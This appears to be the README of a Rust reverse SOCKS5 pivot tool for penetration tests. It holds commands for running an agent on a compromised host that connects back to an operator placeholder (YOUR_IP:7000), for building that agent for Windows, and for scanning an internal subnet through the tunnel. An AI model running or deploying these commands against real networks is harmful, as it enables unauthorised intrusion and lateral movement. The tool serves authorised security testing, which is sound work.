

[](https://github.com/grimh3xx/w0rmgate/actions)
[](LICENSE)


**Reverse SOCKS5 pivot tunnel in Rust for authorised pentests.** The agent runs on
the compromised host and **connects back** to the operator; the operator gets a
SOCKS5 proxy that egresses onto the agent's internal network. Solves the classic
case where the target sits behind NAT/firewall and accepts no inbound.

<p align="center"></p>

> ## ⚠️ Authorised use only
> Pivoting grants lateral access to the target's internal network. Use **only**
> in scoped, explicitly authorised environments. You are responsible.

## How it works

```
operator (you)                          compromised host
┌─────────────────────┐                 ┌──────────────────┐
│ w0rmgate server     │◄──── connects ──│ w0rmgate agent   │
│  :7000 control      │     back        │                  │
│  :1080 SOCKS5 ──────┼─ mux tunnel ───►│  dials internal net
└─────────────────────┘                 └──────────────────┘
proxychains / browser ─► 127.0.0.1:1080
```

Multiplexes many SOCKS connections over one TCP channel
(`[id][kind][len][data]` frames) with backpressure and a dial timeout.

## Usage

On the operator:

```sh
w0rmgate server --control 0.0.0.0:7000 --socks 127.0.0.1:1080
```

On the compromised host:

```sh
w0rmgate agent --connect YOUR_IP:7000
```

Then:

```sh
proxychains -q nmap -sT 10.10.20.0/24
curl --socks5-hostname 127.0.0.1:1080 http://internal.local
```

## Tests

```sh
cargo test --release      # frame codec round-trips
./tests/e2e.sh            # operator+agent+SOCKS through to a local origin (8/8)
```

## Build

```sh
cargo build --release
# agent on a Windows host:
cargo build --release --target x86_64-pc-windows-gnu
```

## License

MIT. See [LICENSE](LICENSE).
